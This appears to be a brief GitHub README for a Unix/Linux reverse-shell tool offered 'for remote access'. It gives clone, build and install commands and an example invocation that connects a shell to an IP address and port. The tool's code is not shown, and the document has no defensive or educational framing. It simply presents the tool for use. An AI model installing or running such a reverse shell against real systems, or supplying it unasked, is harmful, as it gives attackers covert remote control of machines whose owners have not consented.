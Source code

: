 Description
===========

	The reverse shell for remote access.

Requests
========
	OS: UNIX/LINUX

install
=======

	git clone https://github.com/CyberSecurityDef/Shell.git
	cd /Shell/reverseShell
	make makefile
	make install

Using
=====

	EXAMPLES:
		reverseShell 192.168.10.150 2035
